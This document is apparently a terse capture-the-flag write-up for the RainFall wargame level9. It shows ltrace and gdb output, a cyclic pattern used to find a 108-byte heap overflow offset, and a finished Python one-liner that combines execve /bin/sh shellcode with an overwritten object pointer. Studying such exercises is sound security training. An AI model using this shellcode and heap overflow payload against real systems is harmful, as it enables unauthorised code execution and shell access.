 level9@RainFall:~$ ltrace ./level9 
__libc_start_main(0x80485f4, 1, 0xbffff6f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_exit(1 <unfinished ...>
+++ exited (status 1) +++
level9@RainFall:~$ ltrace ./level9 lol
__libc_start_main(0x80485f4, 2, 0xbffff6f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff6f4, 0xbffff700, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff700, 0xb7d79e55, 0xb7fed280)               = 0x804a078
strlen("lol")                                                   = 3
memcpy(0x0804a00c, "lol", 3)                                    = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 11) +++

(gdb) x/32wx 0x804a000
0x804a000:      0x00000000      0x00000071      0x08048848      0x41414141
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000005      0x00000071      0x08048848      0x00000000


Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5
lenght = 108

(gdb)  x/32wx 0x804a000
0x804a000:      0x00000000      0x00000071      0x08048848      0x41306141
0x804a010:      0x61413161      0x33614132      0x41346141      0x61413561
0x804a020:      0x37614136      0x41386141      0x62413961      0x31624130
0x804a030:      0x41326241      0x62413362      0x35624134      0x41366241
0x804a040:      0x62413762      0x39624138      0x41306341      0x63413163
0x804a050:      0x33634132      0x41346341      0x63413563      0x37634136
0x804a060:      0x41386341      0x64413963      0x31644130      0x41326441
0x804a070:      0x64413364      0x35644134      0x08048848      0x00000000


"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + 83 + 0x 08 04 a0 0c

$(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*83 + "\x0c\xa0\x04\x08"')